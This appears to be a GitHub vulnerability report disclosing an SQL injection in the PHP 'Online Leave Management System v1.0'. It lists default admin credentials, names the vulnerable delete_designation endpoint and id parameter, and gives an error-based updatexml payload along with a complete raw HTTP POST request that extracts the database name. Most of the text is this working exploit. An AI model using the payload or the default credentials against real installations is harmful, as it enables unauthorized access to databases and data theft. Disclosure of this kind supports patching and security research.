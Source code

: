# Online Leave Management System v1.0 by oretnom23 has SQL injection

BUG_Author: Tmoont

Login account: admin/admin123 (Super Admin account)

vendors: https://www.sourcecodester.com/php/14910/online-leave-management-system-php-free-source-code.html

The program is built using the xmapp-php8.1 version

First create a table in the database
```sql
CREATE TABLE `designation_ist` (
  `id` int(11) NOT NULL
) ENGINE=InnoDB DEFAULT CHARSET=utf8mb4;
COMMIT;
```

Vulnerability File: /leave_system/classes/Master.php?f=delete_designation

Vulnerability location: /leave_system/classes/Master.php?f=delete_designation,id

dbname=leave_db,length=8

[+] Payload:  id=3' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+  // Leak place ---> id

```sql
POST /leave_system/classes/Master.php?f=delete_designation HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: http://192.168.1.19/leave_system/admin/?page=maintenance/department
Content-Length: 65
Cookie: PHPSESSID=a58hbbkeelngug4ek0dssb0rb5
Connection: close

id=3' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+
```

![image](https://user-images.githubusercontent.com/54017627/183636139-98936637-3f64-418d-b486-be554f144eb2.png)


